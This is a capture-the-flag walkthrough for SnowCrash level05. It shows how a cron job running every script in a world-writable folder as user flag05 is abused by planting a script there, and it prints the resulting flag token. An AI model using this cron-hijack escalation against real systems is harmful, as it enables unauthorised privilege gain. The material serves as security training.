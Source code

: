 Once logged in the system prompt to us the following msg "You have a new mail."

`[~]$ ssh level05@10.12.177.116 -p 4242`
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.12.177.116
`level05@10.12.177.116's password:`
# You have new mail.

After we execute the find command to look for related files to level05

```
level05@SnowCrash:~$ find / -name level05 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
level05@SnowCrash:~$
```

We get the /var/mail/level05 which indicate that a running conjob is executing the script /usr/sbin/openarenaserver as flag05 user

`level05@SnowCrash:~$ cat /var/mail/level05`

# */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

`level05@SnowCrash:~$`

Now looking the source code of the script it's obvious that it's looping through all files in 
/opt/openarenaserver folder and execute them with bash as follow

`level05@SnowCrash:~$ cat /usr/sbin/openarenaserver`
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```


Now let's try to add a script called flag in /opt/openarenaserver executing getflag command. We wait 2 min and check for /opt/openarenaserver/flag file.

```
level05@SnowCrash:/opt/openarenaserver$ echo "whoami > /opt/openarenaserver/works" > cmd
level05@SnowCrash:/opt/openarenaserver$ ls
cmd
level05@SnowCrash:/opt/openarenaserver$ echo "getflag > /opt/openarenaserver/flag" > flash
level05@SnowCrash:/opt/openarenaserver$ ls
level05@SnowCrash:/opt/openarenaserver$ cat flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/opt/openarenaserver$ cat works
flag05
```
